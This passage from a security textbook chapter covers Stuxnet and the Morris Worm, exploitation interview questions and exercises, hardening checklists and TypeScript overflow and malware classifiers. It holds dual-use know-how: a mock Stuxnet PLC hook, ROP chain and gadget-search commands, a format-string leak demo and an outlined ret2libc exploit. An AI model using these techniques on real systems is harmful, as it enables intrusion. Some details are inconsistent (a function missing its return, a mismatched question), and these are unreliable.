- Hooked read/write commands to/from Siemens S7-315 and S7-417 PLCs
- Intercepted and modified output to frequency converters (believed to be IR-1 uranium centrifuges)
- Recorded normal operation, then played it back while spinning centrifuges outside safe speeds
- Hid modifications from monitoring software (PLC rootkit)

**Code Facts:**
- 15,000+ lines of code across multiple components
- Multiple programming languages: C++, C, assembly
- Used valid digital certificates (RealTek, JMicron) → stolen from Taiwanese hardware companies
- Four zero-day exploits (MS10-046, MS10-061, MS10-073, MS10-092)
- Two stolen certificates
- Peer-to-peer update mechanism (unusual for worms at the time)

**Impact:**
- Destroyed ~1,000 IR-1 centrifuges at Natanz, Iran
- Set back Iranian nuclear program by ~2 years
- First known cyberattack to cause physical destruction
- Changed cyberwarfare forever

**Code Example (Simplified):**
```c
// Simplified concept of s7otbxdx.dll hook
// This is NOT original Stuxnet code but demonstrates the technique

// Original function pointer
typedef int (*ReadS7Block)(int blockNum, void *buffer);
ReadS7Block original_read = NULL;

// Malicious hook
int hooked_ReadS7Block(int blockNum, void *buffer) {
    int result = original_read(blockNum, buffer);

    // If this is a centrifuge speed read, report normal RPM
    if (blockNum == CENTRIFUGE_BLOCK) {
        // At this point, the actual RPM is dangerously high
        // But we return fabricated normal values
        CentrifugeData *data = (CentrifugeData *)buffer;
        data->rpm = NORMAL_RPM;        // Report 63,000 RPM instead of 84,000
        data->vibration = NORMAL_VIB;   // Report normal vibration
        data->temperature = NORMAL_TEMP;
    }
    return result;
}
```

**Lessons:**
- Air-gapped networks can be breached via USB
- Four zero-days in a single weapon was unprecedented
- Physical consequences of cyberattacks are real
- Stolen code-signing certificates undermine trust

---

### 9.4 Morris Worm (1988) → First Internet Worm


**Analogy:** A biologist released a test population of bugs to study their spread, but the bugs reproduced so fast they choked the entire forest.

**Type:** Worm (self-propagating)

**Author:** Robert Tappan Morris, Cornell graduate student

**Timeline:**

| Date | Event |
|------|-------|
| Nov 2, 1988 | Worm released from MIT (to hide Cornell origin) |
| Nov 2-3, 1988 | Worm rapidly infects ~6,000 UNIX systems (10% of internet) |
| Nov 3, 1988 | MIT and UC Berkeley teams begin reverse-engineering |
| Nov 4, 1988 | Decompiled and shared; kill procedures developed |
| 1990 | Morris convicted under Computer Fraud and Abuse Act |
| 1991 | Sentenced: 3 years probation, 400 hours community service, $10,050 fine |

**Technical Breakdown:**

**Vulnerabilities Exploited:**

1. **fingerd buffer overflow (CVE-1999-0197):**
   - `fingerd` (Finger service daemon) read 512 bytes from `gets()` into a fixed buffer
   - Worm sent a crafted 536-byte input that overflowed 512-byte buffer
   - Overflow overwrote return address to execute `execve("/bin/sh", ...)`

2. **sendmail DEBUG command:**
   - Sendmail SMTP daemon had a DEBUG mode enabled by default
   - Worm connected via SMTP, sent `DEBUG` command, then executed shell commands

3. **rsh/rexec password guessing:**
   - Tried weak passwords: "guest", "root", "anonymous", "demo", "administrator"
   - Used `/etc/passwd` (no shadow at the time) for username list
   - Tried 50 common passwords against each account

**Code Facts:**
- ~4,000 lines of code (99 lines in C, rest in supporting files)
- Compiled on VAX and Sun 3 architectures
- Designed to stay hidden but had a bug: the "1-in-7" infection check was inverted
- Intended to replicate slowly (check if already infected every 7th time)
- Bug: actually replicated on every opportunity except every 7th

**The Replication Bug:**
```c
// Simplified illustration of Morris Worm's infection check flaw
int should_infect() {
    // INTENDED: infect only 1 in 7 times (check r == 0)
    // BUGGY: r returns 0-6 inclusive
    int r = random() % 7;
    // INTENDED: if (r == 0) return 1;   // infect 1/7 of the time
    // ACTUAL:   if (r == 0) return 0;   // DON'T infect 1/7 of the time
    // Effect: infected 6/7 of the time instead of 1/7
}
```

**Impact:**
- 6,000 of ~60,000 internet-connected systems infected (10%)
- Estimated $100K-$10M in damages (system downtime, cleanup)
- Led to:
  - Creation of CERT/CC (Computer Emergency Response Team Coordination Center)
  - First conviction under CFAA
  - Major push for network security research
  - Birth of "ethical hacking" discourse

**The fingerd Buffer Overflow (in C):**
```c
// fingerd → simplified vulnerable code
#include <stdio.h>
#include <stdlib.h>

void process_request() {
    char query[512];       // fixed-size buffer
    gets(query);            // reads from stdin into buffer → NO BOUNDS CHECK
    // ... process finger query ...
}

int main() {
    // ...
    process_request();
    // ...
}
```

**Lessons:**
- A single unchecked `gets()` brought down 10% of the internet
- Bugs in attack code amplified damage (ironic)
- Network resilience requires segmentation
- The worm created the modern field of computer security incident response

---

## Section 10: Interview Corner

### Q1: What is a stack buffer overflow? Explain with stack frame layout.


**A:** A stack buffer overflow occurs when a program writes more data to a stack-allocated buffer than its allocated size, overwriting adjacent stack memory → specifically the saved base pointer and return address.

**Stack frame layout during a function call:**
```
High Address
+---------------------------+
| function arguments        | ← caller pushes right-to-left
+---------------------------+
| return address            | ← pushed by CALL instruction
+---------------------------+
| saved base pointer (EBP)  | ← pushed by function prologue
+---------------------------+
| local variables (buffer)  | ← allocated by `sub esp, N`
+---------------------------+
Low Address (ESP points here)
```

When the buffer overflows, data spills from "local variables" up through saved EBP and return address. When the function executes `ret`, it jumps to the overwritten address → attacker-controlled.

### Q2: How does ASLR work and how can it be bypassed?


**A:** ASLR (Address Space Layout Randomization) randomizes the base addresses of stack, heap, shared libraries (libc), and the executable itself (PIE) at process startup. On 64-bit Linux, libc base has ~28 bits of entropy (256 possible positions on 32-bit).

**Bypass techniques:**
1. **Info leak (most common):** Format string vulnerability (`printf(user_input)`) reads stack values including return addresses, allowing ASLR base calculation.
2. **ret2plt:** Use the binary's PLT (address known if no PIE) to call `puts()` and leak a GOT entry containing a resolved libc address.
3. **Brute-force (32-bit only):** Try all possible addresses (~2^16 possibilities).
4. **Partial overwrite:** Modify only the lower bytes of a return address to jump to a different function within the same page (ASLR doesn't randomize within pages).

### Q3: Explain the difference between DEP/NX and how to bypass it.


**A:** DEP (Data Execution Prevention) / NX (No-Execute) is a hardware feature that marks memory pages as non-executable. The stack and heap are marked NX, so injected shellcode cannot execute there.

**Bypass: ROP (Return-Oriented Programming).** Instead of injecting new code, chain short instruction sequences (gadgets) that already exist in executable memory (libc, binary itself). Each gadget ends with `ret`, which pops the next gadget's address from the (attacker-controlled) stack.

### Q4: What is a ROP chain? Walk through building one.


**A:** A ROP chain is a sequence of gadget addresses placed on the stack. Each gadget is 2-6 bytes ending in `ret`. Execution flows:

1. First `ret` pops gadget1 address → executes `pop rdi; ret`
2. Gadget1's `pop rdi` pops the next stack value into rdi → `ret` pops gadget2
3. Chain continues until the attacker's goal is achieved

**Example chain for `execve("/bin/sh", NULL, NULL)` on x86_64:**
```
[pop_rdi] → [&"/bin/sh"] → [pop_rsi] → [0] → [pop_rdx] → [0] → [pop_rax] → [59] → [syscall]
```
Each bracket is 8 bytes on the stack. `ret` instructions advance execution through the chain.

### Q5: How do you find gadgets for a ROP chain?


**A:** Use automated tools:

```bash
# ropper
ropper --file libc.so.6 --search "pop rdi"
ropper --file target_binary --all

# ROPgadget
ROPgadget --binary /usr/lib/libc.so.6 --only "pop|ret" | grep rdi
ROPgadget --binary target_binary --opbytes "0f 05 c3"  # find syscall; ret
```

Key gadgets needed: `pop rdi; ret`, `pop rsi; ret`, `pop rdx; ret`, `pop rax; ret`, `syscall; ret`. On x86: `pop ebx; ret`, `pop ecx; ret`, etc.

### Q6: Explain the N+1 problem in ORM (database context), then explain NOP sled (overflow context).


**A:** **NOP sled (in overflow context):** A sequence of NOP (0x90) instructions placed before shellcode. Instead of guessing the exact address of shellcode, the attacker jumps anywhere in the NOP sled. Execution "slides" down the sled to the shellcode. This increases the margin of error for ASLR/stack address variation.

```
[ NOP NOP NOP ... NOP SHELLCODE ]
  ^ jump here
  |--- execution slides through NOPs to shellcode
```

### Q7: What is the difference between a virus and a worm?


**A:** A **virus** requires a host file (executable, document, boot sector) and human action to spread (opening infected file, running infected program). A **worm** is self-contained and self-propagating → it spreads across networks without any user action by exploiting vulnerabilities or weak credentials.

The Morris Worm (1988) is the classic example of a worm: it propagated via fingerd buffer overflow, sendmail DEBUG, and rsh password guessing → all automated, without user interaction.

### Q8: How would you analyze a suspicious binary without running it?


**A:** Static analysis approach:

1. **File type:** `file malware.exe` (PE, ELF, Mach-O, script)
2. **Hashing:** SHA256 → search on VirusTotal, MalwareBazaar
3. **Strings:** `strings malware.exe | grep -i "http\|cmd\|encrypt\|decrypt\|registry"`
4. **PE analysis:** PEStudio checks imports (VirtualAlloc, CreateRemoteThread), entropy (packed?), TLS callbacks, sections
5. **Disassembly:** Ghidra or IDA Free for decompilation
6. **Dependencies:** `ldd malware.elf` or PE imports analysis
7. **Signature detection:** ClamAV scan, YARA rule matching

### Q9: What is the Secure Software Development Lifecycle (SSDLC)?


**A:** The SSDLC integrates security into every phase of software development:

1. **Requirements:** Define security/privacy needs, abuse cases, compliance
2. **Design:** Threat modeling (STRIDE), security architecture review, attack surface analysis
3. **Implementation:** Secure coding standards, static analysis (SAST), peer code review
4. **Testing:** Dynamic analysis (DAST), fuzz testing, penetration testing, dependency scanning
5. **Deployment:** Hardened configuration, secrets management, immutable infrastructure
6. **Maintenance:** Vulnerability monitoring, patch management, incident response

### Q10: Explain the SolarWinds attack in terms of the SSDLC.


**A:** The SolarWinds attack exploited failures across multiple SSDLC phases:

- **Requirements/Design:** SolarWinds did not treat their build environment as a critical security boundary. No zero-trust architecture for the build pipeline.
- **Implementation:** The build environment lacked file integrity monitoring → attackers modified source code without detection for months.
- **Testing:** Trojanized DLL passed all SolarWinds QA/QC because it worked correctly. No behavioral analysis or anomaly detection in test phase.
- **Deployment:** Code signing didn't help → the trojanized DLL was signed with SolarWinds' legitimate certificate.
- **Maintenance:** No runtime monitoring of the Orion agent's outbound traffic (blended in with telemetry).
- **Key lesson:** Supply chain security requires verifying not just the vendor's identity but the integrity of their entire build and delivery pipeline.

### Q11: How does a format string vulnerability work?


**A:** When user input is passed directly as the format string to `printf` (e.g., `printf(argv[1])` instead of `printf("%s", argv[1])`), the attacker can:

1. **Read memory:** `%x%x%x%x` reads stack values; `%s` reads arbitrary memory as string
2. **Write memory:** `%n` writes the number of bytes printed so far to an address on the stack

**Exploitation:**
```
$ ./vuln "AAAA%x.%x.%x.%x"
AAAAffffd500.f7f5f5c0.8048426.41414141    ← AAAA = 0x41414141 leaked from stack
```

`%n` can overwrite GOT entries (e.g., redirect `printf` to `system`) or overwrite the return address.

### Q12: What tools would you use for Windows malware analysis?


**A:** Sysinternals suite is the standard toolkit:

| Tool | Purpose |
|------|---------|
| **Process Monitor** | Real-time file system, registry, process/thread activity |
| **Process Explorer** | Detailed process tree, DLL list, handles, network connections |
| **Autoruns** | All autostart locations (registry, services, tasks, drivers, BHO) |
| **Strings** | Extract strings from binaries |
| **Sigcheck** | Check digital signatures, hash files |
| **TCPView** | Network connections for each process |
| **Handle** | Open handles by process |

**Workflow:** Autoruns → identify persistence → ProcMon → capture behavior → TCPView → C2 destinations → Strings/Sigcheck → in-depth binary analysis.

---

## Applications in Real Systems

| Domain | Application | How It Uses This Chapter |
|--------|-------------|--------------------------|
| **Windows OS** | Windows Defender Exploit Guard | ASLR, DEP, CFG, SEHOP enforced per-process |
| **Linux Kernel** | Kernel Self-Protection Project (KSPP) | Stack canaries, FREECON, usercopy hardening |
| **Browser Security** | Chrome Site Isolation + V8 Sandbox | ASLR + DEP + CFI to prevent ROP in JavaScript engines |
| **Cloud Security** | AWS Nitro Enclaves | Memory isolation, attestation, minimal attack surface |
| **Embedded Systems** | TPM Measured Boot | Boot chain integrity (UEFI Secure Boot → OS loader → kernel) |
| **AV/EDR** | CrowdStrike Falcon | Behavioral detection, memory scanning for shellcode signatures |
| **IoT Security** | Azure Sphere Pluton security core | Hardware-isolated execution, measured boot, signed updates |
| **Database Security** | SQL Server Always Encrypted | In-enclave decryption, encrypted memory regions |
| **Mobile Security** | iOS Code Signing + PAC | Pointer Authentication Codes (PAC) against ROP |
| **Game Development** | Anti-cheat systems (EAC, BattlEye) | Kernel drivers, memory integrity checks, hook detection |

---

## Practical Takeaways

| Takeaway | Application |
|----------|-------------|
| OS Hardening | Apply CIS benchmarks, disable unnecessary services, enable SELinux/AppArmor, configure auditd, and enforce password policies |
| Buffer Overflow Prevention | Use stack canaries, ASLR, DEP/NX, and CFG; compile with `-fstack-protector` and `-pie`; use memory-safe languages where possible |
| Shellcode & Exploitation | Understand shellcode generation (msfvenom) and ROP chain construction for penetration testing and defense validation |
| Malware Classification & Defense | Deploy EDR, application whitelisting (AppLocker), AMSI for PowerShell, and memory forensics for rootkit detection |
| SSDLC Integration | Conduct threat modeling (STRIDE) during design, SAST during implementation, DAST/fuzzing during testing, and monitoring in production |
| Static & Dynamic Analysis | Run Flawfinder/RATS for C/C++ SAST, OWASP ZAP for web DAST, and AFL/libFuzzer for coverage-guided fuzzing |
| Case Study Lessons | Patch promptly (WannaCry), segment networks (NotPetya), verify supply chain integrity (SolarWinds), and audit air-gap procedures (Stuxnet) |

---

## Summary

- **OS Hardening** reduces attack surface via service removal, kernel parameters, MAC (SELinux/AppArmor), least privilege, and logging.
- **Buffer Overflows** exploit unsafe memory operations in C/C++. Stack overflow overwrites return address; heap overflow corrupts allocator metadata; SEH overflow hijacks exception handling on Windows.
- **Shellcode** is position-independent, null-byte-free machine code. Generate with msfvenom; encode to evade filters.
- **ROP** bypasses DEP/NX by chaining existing code gadgets. ret2libc calls `system()` directly; full ROP chains execute arbitrary syscalls.
- **ASLR** randomizes memory layout; bypassed via info leaks (format string, ret2plt) or brute-force (32-bit).
- **Malware** spans 10+ categories: virus, worm, trojan, ransomware, rootkit, botnet, RAT, spyware, adware, fileless.
- **SSDLC** embeds security across all phases: threat modeling (STRIDE/DREAD/PASTA), secure coding, fuzzing, SAST/DAST.
- **Fuzzing** (AFL) discovers memory corruption by mutating inputs with coverage feedback.
- **Static analysis** (Flawfinder, RATS) catches bugs early; dynamic analysis (ASan, Valgrind) catches runtime issues.
- **Case studies** (SolarWinds, NotPetya, Stuxnet, Morris Worm) illustrate real-world impact and lessons learned.

---

## Exercises

### Review Questions

1. What four key ASLR bypass techniques exist, and which requires an additional vulnerability?

<details>
<summary>Solution</summary>
1) Ret2plt/ret2got (uses PLT/GOT entries, no leak needed for ASLR). 2) Info leak (format string, heap leak — requires additional vulnerability). 3) Brute-force (32-bit: ~2^8 attempts; 64-bit infeasible). 4) Relative memory addressing (offset between stack/heap and code). Info leak is the technique that requires an additional vulnerability.
</details>

2. Draw the stack frame for `void f(char *s) { char buf[16]; gets(buf); }` and label the overflow target.

<details>
<summary>Solution</summary>
Stack layout (high to low): [saved return address] [saved EBP] [buf[12-15]] [buf[8-11]] [buf[4-7]] [buf[0-3]] (ESP). The overflow target is the saved return address at buf+16 bytes (32-bit) or buf+24 bytes (64-bit with alignment).
</details>

3. Explain why DEP prevents classic shellcode injection but fails against ROP.

<details>
<summary>Solution</summary>
DEP (Data Execution Prevention) marks stack and heap as non-executable (NX bit), so injected shellcode cannot run. ROP bypasses DEP by reusing existing executable code (gadgets from loaded libraries/binary) chained together via return addresses — no new code is executed, only existing code.
</details>

4. What is the difference between SUNBURST and SUPERNOVA in the SolarWinds attack?

<details>
<summary>Solution</summary>
SUNBURST was a trojanized Orion DLL (SolarWinds code) — a sophisticated supply-chain backdoor that communicated via disguised HTTP. SUPERNOVA was a separate, unrelated intrusion — a Chinese state-sponsored actor who exploited the same SolarWinds environment using a webshell, but with different TTPs and C2 infrastructure.
</details>

5. Name three ways NotPetya propagated laterally.

<details>
<summary>Solution</summary>
1) EternalBlue (SMBv1 exploit, CVE-2017-0144). 2) EternalRomance (SMBv1 variant). 3) WMIC (Windows Management Instrumentation) for remote command execution. Also used PsExec and stolen credentials harvested via MimiKatz.
</details>

### Application Problems

1. For a binary compiled with `-fstack-protector -pie -z now` (Full RELRO, canary, PIE), describe an exploitation strategy. What vulnerability primitives would you need?

<details>
<summary>Solution</summary>
This configuration has all major mitigations. Strategy: 1) Info leak of canary (format string or out-of-bounds read). 2) Info leak of code address (PIE bypass → calculate binary base). 3) Info leak of libc address (for system()). 4) ROP chain with gadgets from libc. Primitives needed: arbitrary read (leak canary, PIE base, libc base), then arbitrary write (overwrite return address with ROP chain).
</details>

2. You find a kernel-mode rootkit on a Linux server. Why can't you simply delete it? Describe the recovery process (three steps).

<details>
<summary>Solution</summary>
Deleting the rootkit file does not remove it from kernel memory — the rootkit can also hide its files, processes, and network connections from userland tools. Recovery steps: 1) Quarantine the system (disconnect from network). 2) Preserve forensic evidence (RAM dump via LiME, disk image). 3) Rebuild from known-good backup or reinstall — do not try to clean a rooted kernel.
</details>

3. Design a threat model (STRIDE) for a smart home IoT thermostat. List at least one threat per category.

<details>
<summary>Solution</summary>
Spoofing: Attacker impersonates the cloud API to send fake temperature commands. Tampering: Attacker modifies firmware update in transit. Repudiation: No audit log of who changed temperature settings. Information Disclosure: Wi-Fi credentials or home occupancy patterns leaked via API. DoS: Repeated connection attempts drain battery. Elevation of Privilege: Guest user accesses admin thermostat settings.
</details>

### Challenge Problem

1. Write a complete exploit for a 64-bit binary with no PIE but full ASLR + NX. The binary has a format string vulnerability in `printf(buf)` followed by a stack buffer overflow `gets(buf2)`. Your solution must: (a) leak libc address via format string, (b) calculate `system()` offset, (c) build ROP chain with gadgets from the leaked libc, (d) redirect to `system("/bin/sh")`.

<details>
<summary>Solution</summary>
Stage 1: Use format string `%p.%p.%p...` to leak stack values, identify a libc address (e.g., `__libc_start_main` return address). Stage 2: Calculate libc base = leaked_addr - known_offset. Find system() and "/bin/sh" offsets. Stage 3: overflow buffer with: padding + pop_rdi gadget + &"/bin/sh" + system(). Use a `ret` gadget before system() for 16-byte stack alignment (movaps issue). See the extended pwntools example in this chapter.
</details>

---

### OS Hardening Checklist


**Linux:**
- [ ] Remove unnecessary packages: `apt-get autoremove --purge`
- [ ] Apply sysctl hardening (ASLR, rp_filter, dmesg_restrict, ptrace_scope)
- [ ] Enable SELinux/AppArmor in enforcing mode
- [ ] Configure firewall: `ufw default deny; ufw allow ssh`
- [ ] SSH: key-only auth, no root, custom port (optional)
- [ ] Configure auditd: watch /etc, /var/log, /etc/shadow
- [ ] Password policy: PAM pwquality (14+ char, complexity)
- [ ] Automatic security updates: `unattended-upgrades`
- [ ] Bootloader password: GRUB password
- [ ] File integrity: AIDE or Tripwire
- [ ] Scan with Lynis and remediate suggestions

**Windows:**
- [ ] Apply latest Windows Updates
- [ ] Enable Windows Defender Real-time Protection
- [ ] Configure AppLocker (default deny, allow Program Files + Windows)
- [ ] UAC: Always notify
- [ ] BitLocker: all drives encrypted
- [ ] Windows Firewall: default block inbound, allow only necessary
- [ ] RDP: via VPN only, NLA, restricted user list
- [ ] Event log: increase log size, enable PowerShell logging (Event ID 4104)
- [ ] Remove unnecessary roles and features
- [ ] Configure Windows Defender Exploit Guard (ASLR, DEP, CFG)
- [ ] LSA protection (RunAsPPL)
- [ ] Disable SMBv1, LLMNR, NetBIOS over TCP/IP

---

### Buffer Overflow Defenses Comparison


| Defense | Mechanism | Bypass | Effectiveness |
|---------|-----------|--------|---------------|
| Stack Canary | Random value between buffer and return addr; check on return | Info leak of canary value, or fork-based brute-force | High (default in GCC/Clang) |
| ASLR | Randomizes base addresses | Info leak (format string, ret2plt), 32-bit brute-force | High on 64-bit |
| DEP/NX | Marks stack/heap non-executable | ROP, ret2libc | Very high |
| CFG | Validates indirect call targets via guard CFG table | Find unguarded call sites, or corrupt valid function pointer | High (Windows 8.1+) |
| SEHOP | Validates SEH chain before exception dispatch | Corrupt chain to valid-appearing entry | Moderate |
| SafeSEH | Checks handler address is in registered module table | Use module without SafeSEH | Moderate |
| PIE | Randomizes executable base address | Info leak of binary base | High |
| Full RELRO | GOT read-only after initialization | Need other write target (heap pointer, stack var) | High |

---

### Malware Types Comparison Table


| Type | Propagation | Persistence | Payload | Detection | Defense |
|------|-------------|-------------|---------|-----------|---------|
| Virus | File infection | Infected host files | Varied | Signature AV | AV, patch mgmt |
| Worm | Network self-propagation | Memory or file | DDoS, dropper | Network IDS | Segmentation, patch |
| Trojan | Social engineering | Registry, services | Backdoor, theft | Behavioral EDR | User training, AppLocker |
| Ransomware | Phishing, exploits | Shadow deletion | File encryption | File I/O monitoring | Offline backups, EDR |
| Rootkit | Post-exploit | Kernel hooks | Hide presence | Memory forensics | Secure Boot, attestation |
| Botnet | Worm + exploit | C2, DGA | DDoS, spam, mining | C2 traffic analysis | DNS sinkhole |
| RAT | Trojan delivery | Auto-run | Remote control | Network traffic | EDR, segmentation |
| Spyware | Bundled, drive-by | BHO, registry | Keylogging, theft | Anti-spyware | Browser policies |
| Adware | Bundled software | Registry, toolbars | Unwanted ads | PUP detection | Ad-blocker |
| Fileless | Exploit, macro | WMI, registry | Memory payload | Script block logging | AMSI, logging |

---

### Static vs Dynamic Analysis


| Aspect | Static (SAST) | Dynamic (DAST) |
|--------|---------------|----------------|
| When | Implementation phase | Testing phase |
| Source | Analyzes source/binary | Tests running application |
| FP rate | High | Low |
| FN rate | Low for known patterns | High |
| Speed | Fast | Slow |
| Coverage | All theoretical paths | Only executed paths |
| Runtime bugs | Cannot detect | Can detect |
| Config issues | Cannot detect | Can detect |
| Integration | Pre-commit, CI | CI/CD with staging |
| C/C++ tools | Flawfinder, RATS, cppcheck | ASan, Valgrind, AFL |
| Java tools | FindSecBugs, SonarQube | OWASP ZAP, Burp |

---

### SSDLC Phases


| Phase | Activities | Deliverables |
|-------|-----------|--------------|
| Requirements | Security requirements, privacy analysis, abuse cases | Security requirements document |
| Design | Threat modeling (STRIDE), secure architecture review | Threat model, architecture diagram |
| Implementation | Secure coding, SAST scanning, code review | Clean code, SAST report |
| Testing | DAST, fuzzing, penetration testing, dependency scan | Test report, vulnerability log |
| Deployment | Hardened configs, secrets mgmt, immutable infra | Hardened image, deployment plan |
| Maintenance | Patch management, monitoring, incident response | Patch log, IR playbook |

---

## TypeScript Implementations

### 1. Buffer Overflow Detector


The following TypeScript code simulates a stack frame analyzer that detects potential buffer overflow vulnerabilities by comparing input sizes against buffer capacities and identifying which critical memory regions (saved EBP, return address) would be overwritten.

```typescript
interface MemoryRegion {
  address: string;
  size: number;
  permissions: string;
  data: string;
}

interface StackFrame {
  functionName: string;
  bufferSize: number;
  bufferAddress: string;
  returnAddress: string;
  savedEbp: string;
  locals: MemoryRegion[];
  inputSize: number;
}

interface OverflowVulnerability {
  functionName: string;
  type: 'stack_overflow' | 'heap_overflow' | 'SEH_overflow';
  severity: 'low' | 'medium' | 'high' | 'critical';
  description: string;
  overwrittenRegions: string[];
  exploitability: string;
  recommendation: string;
}

class OverflowDetector {
  detectStackOverflow(frame: StackFrame): OverflowVulnerability | null {
    if (frame.inputSize <= frame.bufferSize) return null;
    const overflowBytes = frame.inputSize - frame.bufferSize;
    const overwritten: string[] = [];

    // Determine which regions are overwritten based on overflow depth
    if (overflowBytes > 0) {
      overwritten.push(`Adjacent stack locals (${Math.min(overflowBytes, 12)} bytes past buffer)`);
    }
    if (overflowBytes > 12) {
      overwritten.push(`Saved EBP (4 bytes) at ${frame.savedEbp} — base pointer corrupted`);
    }
    if (overflowBytes > 16) {
      overwritten.push(`Return address (4 bytes) at ${frame.returnAddress} ← EIP control achieved!`);
    }
    if (overflowBytes > 20) {
      overwritten.push(`Function arguments beyond return address`);
    }

    return {
      functionName: frame.functionName,
      type: 'stack_overflow',
      severity: overflowBytes > 16 ? 'critical' : overflowBytes > 12 ? 'high' : 'medium',
      description: `Buffer overflow in ${frame.functionName}: wrote ${frame.inputSize}B into ${frame.bufferSize}B buffer (${overflowBytes}B overflow)`,
      overwrittenRegions: overwritten,
      exploitability: overflowBytes > 16
        ? 'Remote code execution — attacker controls EIP, can redirect to shellcode'
        : overflowBytes > 12
        ? 'Stack frame corrupted — likely denial of service or controlled crash'
        : 'Local variable corruption — potential information disclosure',
      recommendation: overflowBytes > 16
        ? 'Replace unsafe functions (strcpy → strncpy, gets → fgets), enable stack canaries (-fstack-protector), and enforce bounds checking'
        : `Increase buffer size to at least ${frame.inputSize + 8} bytes and validate all input lengths`,
    };
  }

  detectHeapOverflow(region: MemoryRegion, writtenBytes: number): OverflowVulnerability | null {
    if (writtenBytes <= region.size) return null;
    return {
      functionName: `heap_chunk_${region.address}`,
      type: 'heap_overflow',
      severity: 'high',
      description: `Heap overflow: ${writtenBytes}B written into ${region.size}B chunk at ${region.address}`,
      overwrittenRegions: ['Adjacent heap chunk metadata', 'Adjacent heap user data'],
      exploitability: 'Heap metadata corruption may yield arbitrary-write primitive for further exploitation',
      recommendation: 'Use safe allocators (glibc malloc hardening), enable guard pages, and run AddressSanitizer during testing',
    };
  }

  analyzeStackFrames(frames: StackFrame[]): OverflowVulnerability[] {
    const vulnerabilities: OverflowVulnerability[] = [];
    for (const frame of frames) {
      const stackVuln = this.detectStackOverflow(frame);
      if (stackVuln) vulnerabilities.push(stackVuln);
      for (const region of frame.locals) {
        const heapVuln = this.detectHeapOverflow(region, frame.inputSize);
        if (heapVuln) vulnerabilities.push(heapVuln);
      }
    }
    return vulnerabilities;
  }
}

// Example: a vulnerable function copying user input into a small stack buffer
const detector = new OverflowDetector();
const vulnerableFrame: StackFrame = {
  functionName: 'process_packet',
  bufferSize: 64,
  bufferAddress: '0xbffffa00',
  returnAddress: '0xbffffa44',
  savedEbp: '0xbffffa40',
  inputSize: 200,
  locals: [
    { address: '0xbffffa00', size: 64, permissions: 'rw-', data: 'A'.repeat(128) },
    { address: '0xbffffa30', size: 4, permissions: 'rw-', data: '' },
  ],
};

const findings = detector.analyzeStackFrames([vulnerableFrame]);
console.log(JSON.stringify(findings, null, 2));
// Expected: critical severity — return address overwritten → EIP control
```

### 2. Malware Behavior Classifier


This classifier analyzes malware samples by inspecting API call patterns, file operations, registry modifications, and network connections to determine the malware family and map behaviors to the MITRE ATT&CK framework.

```typescript
interface MalwareSample {
  apiCalls: string[];
  registryKeys: string[];
  fileOperations: string[];
  networkConnections: string[];
}

interface ClassificationResult {
  family: string;
  confidence: number;
  behaviors: string[];
  mitreMapping: string[];
}

class MalwareClassifier {
  // API signatures for known malware families
  private readonly ransomwareApis = [
    'CryptEncrypt', 'CryptDecrypt', 'EncryptFile', 'DecryptFile',
    'WriteFile', 'MoveFileEx', 'DeleteFile', 'FindFirstFile',
    'FindNextFile', 'SetFileAttributesW',
  ];

  private readonly keyloggerApis = [
    'SetWindowsHookEx', 'GetAsyncKeyState', 'GetForegroundWindow',
    'GetWindowTextA', 'GetKeyboardState', 'MapVirtualKey',
    'GetClipboardData', 'SetClipboardData',
  ];

  private readonly persistenceApis = [
    'RegSetValueEx', 'CreateServiceW', 'SchTasksRegister',
    'CreateProcess', 'CopyFile', 'SHGetSpecialFolderPath',
  ];

  private readonly evasionApis = [
    'IsDebuggerPresent', 'CheckRemoteDebuggerPresent',
    'NtQueryInformationProcess', 'GetModuleHandle', 'GetProcAddress',
    'VirtualProtect', 'NtSetInformationThread',
  ];

  classify(sample: MalwareSample): ClassificationResult {
    const behaviors: string[] = [];
    const mitreMapping: string[] = [];
    const apiSet = new Set(sample.apiCalls.map(a => a.split('!').pop() || a));
    let confidence = 0;
    let family = 'Unknown';

    // --- Ransomware detection ---
    const cryptoApis = this.ransomwareApis.filter(a => apiSet.has(a));
    const encryptedFiles = sample.fileOperations.filter(
      f => /\.(encrypted|locked|crypt|enc)$/i.test(f)
    );
    if (cryptoApis.length >= 3 && encryptedFiles.length > 5) {
      behaviors.push('Mass file encryption using crypto APIs');
      behaviors.push('File extension modification (ransom note pattern)');
      mitreMapping.push('T1486 — Data Encrypted for Impact');
      mitreMapping.push('T1491 — Defacement (ransom note)');
      confidence += 0.5;
      family = 'Ransomware';
    }

    // --- Keylogger detection ---
    const hookApis = this.keyloggerApis.filter(a => apiSet.has(a));
    if (hookApis.length >= 3) {
      behaviors.push('Global keyboard hook installed');
      behaviors.push('Keystroke capture via GetAsyncKeyState polling');
      mitreMapping.push('T1056.001 — Input Capture: Keylogging');
      confidence += 0.35;
      if (family === 'Unknown') family = 'Keylogger / Spyware';
    }

    // --- Persistence detection ---
    const persistCalls = this.persistenceApis.filter(a => apiSet.has(a));
    if (persistCalls.length >= 2) {
      behaviors.push('Persistence via registry Run key or scheduled task');
      mitreMapping.push('T1547.001 — Boot/Logon Autostart: Registry Run Keys');
      mitreMapping.push('T1053.005 — Scheduled Task/Job');
      confidence += 0.2;
    }

    // --- Anti-analysis / evasion ---
    const antiDbg = this.evasionApis.filter(a => apiSet.has(a));
    if (antiDbg.length >= 2) {
      behaviors.push('Anti-debugging / sandbox evasion routines');
      mitreMapping.push('T1622 — Debugger Evasion');
      mitreMapping.push('T1497 — Virtualization/Sandbox Evasion');
      confidence += 0.15;
    }

    // --- C2 beaconing ---
    if (sample.networkConnections.length > 3) {
      const domains = new Set(sample.networkConnections.map(c => c.split(':')[0]));
      if (domains.size > 2) {
        behaviors.push('Multiple outbound connections — possible C2 beaconing');
        mitreMapping.push('T1071.001 — Application Layer Protocol: Web Protocols');
        confidence += 0.1;
      }
    }

    // --- Credential theft ---
    if (sample.fileOperations.some(f => /SAM|SYSTEM|NTDS/i.test(f))) {
      behaviors.push('Credential dumping (SAM/NTDS access)');
      mitreMapping.push('T1003.002 — OS Credential Dumping: SAM');
      confidence += 0.25;
      family = 'InfoStealer / Credential Dumper';
    }

    return {
      family,
      confidence: Math.min(confidence, 1.0),
      behaviors: [...new Set(behaviors)],
      mitreMapping: [...new Set(mitreMapping)],
    };
  }
}

// Example: classify a ransomware sample
const classifier = new MalwareClassifier();
const sample: MalwareSample = {
  apiCalls: [
    'kernel32!FindFirstFile', 'kernel32!FindNextFile',
    'kernel32!WriteFile', 'kernel32!MoveFileEx',
    'advapi32!CryptEncrypt', 'advapi32!CryptDecrypt',
    'kernel32!DeleteFile', 'advapi32!RegSetValueEx',
  ],
